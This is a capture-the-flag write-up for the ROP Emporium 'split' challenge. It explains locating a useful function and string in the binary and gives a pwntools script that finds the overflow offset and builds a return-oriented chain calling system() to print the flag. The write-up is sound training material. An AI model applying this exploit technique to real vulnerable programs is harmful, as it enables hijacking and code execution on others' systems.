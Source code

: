 # split

Right of the bat ROPE (Rop Empire) mentions a secret, the `useful` string. Searching for it results that there are more useful resources at the hand. 

![Useful Symbols](./assets/split/useful_symbols.png "Listing of a useful string and function")

Now what is `usefulFunction`? It’s less useful, it just lists the files in the current directory however it does tell us that `system` is imported by calling it.

![usefulFunction Analysis](./assets/split/analyzing_useful_function.png "Analysis of function 'usefulFunction'")

Before making the payload, what’s the `usefulString`?. It reads the flag, exactly what is needed!

By comparing the address of `usefulString` and the last string results in a match.

![Address of usefulString](./assets/split/useful_string_address.png "Getting the address of 'usefulString'")

With those two components in mind, a payload can be formed.

Although ROPE already mentioned that for the 64bit arch the offset is 40 bytes, that doesn’t mean it can’t be correctly scripted

```python
# Don't fill workdir with core files
core.delete_corefiles = True
io.start()

# Send a lot of junk
junk = cyclic(128)
io.send(junk)
io.wait()

# Parse the core file and find RSP
core = io.corefile
rsp = core.rsp

# Which pattern filled the RIP
## Alternatively, the finding the cycle
## of the fault address works to, but it creates a warning
pattern = core.read(rsp, 4)
padding = cyclic_find(pattern)

# Create the ROP for payload
elf = ELF(exe, checksec=False)
rop = ROP(elf)

# Insert system call with the address of the `usefulString`
rop.system(elf.symbols.usefulString)

payload = flat({
	padding: rop.chain()
})

# Start again the binary and send proper payload
io = start()
io.sendlineafter(b'> ', payload)
io.recv()

# Profit
flag = io.recvline()
log.success(flag.decode())
```

![Flag](./assets/split/flag.png "Flag printed to screen")
